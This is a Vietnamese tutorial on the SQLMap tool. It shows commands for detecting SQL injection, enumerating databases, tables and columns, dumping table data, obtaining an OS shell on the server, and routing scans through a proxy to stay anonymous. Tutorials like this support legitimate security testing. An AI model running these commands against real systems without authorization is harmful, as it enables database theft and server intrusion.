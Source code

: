 # Write-Up Sử Dụng SQLMap

## SQLMap là một công cụ mã nguồn mở rất mạnh mẽ dùng để kiểm tra lỗ hổng SQL Injection và khai thác nó. Dưới đây là hướng dẫn chi tiết về cách sử dụng SQLMap và từng chức năng của nó.

### 1. Cài đặt SQLMap
- SQLMap có thể được cài đặt dễ dàng từ GitHub hoặc thông qua các package manager. Để cài đặt từ GitHub, bạn có thể sử dụng lệnh:

```bash
git clone https://github.com/sqlmapproject/sqlmap.git
```


- Sau khi tải xong, bạn có thể chạy SQLMap bằng cách vào thư mục sqlmap và sử dụng lệnh:

```bash
python sqlmap.py
```



### 2. Các Chức Năng Chính của SQLMap
- Xác định URL và các thông số: Để bắt đầu quét, bạn cần chỉ định URL có thể chứa lỗ hổng SQL Injection. Ví dụ:

```bash
python sqlmap.py -u "http://example.com/page.php?id=1"
```



- Kiểm tra tự động: SQLMap sẽ tự động kiểm tra các lỗ hổng SQL Injection. Nếu có lỗ hổng, bạn có thể thấy thông báo tương ứng. Để tăng cường kiểm tra, có thể thêm tùy chọn --level để chỉ định độ sâu của việc kiểm tra:

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" --level=5
```



- Khai thác dữ liệu: SQLMap cho phép bạn khai thác dữ liệu từ cơ sở dữ liệu. Bạn có thể sử dụng lệnh sau để liệt kê các cơ sở dữ liệu:

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" --dbs
```



- Sau khi biết được các cơ sở dữ liệu, bạn có thể chọn một trong số đó để xem các bảng:

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" -D <database_name> --tables
```



- Lấy thông tin bảng và cột: Sau khi có danh sách bảng, bạn có thể lấy thông tin cột trong một bảng cụ thể:

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" -D <database_name> -T <table_name> --columns
```



- Khai thác dữ liệu từ bảng: Để lấy dữ liệu từ một bảng cụ thể, sử dụng lệnh:

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" -D <database_name> -T <table_name> --dump
```



- Kết nối Shell: SQLMap cũng cho phép bạn lấy một shell để tương tác với máy chủ cơ sở dữ liệu:

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" --os-shell
```



### 3. Một số tùy chọn bổ sung
- Thêm Cookie: Nếu trang web yêu cầu cookie để xác thực, bạn có thể thêm tùy chọn --cookie:

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" --cookie="sessionid=123456"
```



- Sử dụng Proxy: Để ẩn danh khi quét, bạn có thể sử dụng proxy:

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" --proxy="http://127.0.0.1:8080"
```


# Tài nguyên tham khảo
SQLMap Official Documentation
SQL Injection: What You Need to Know
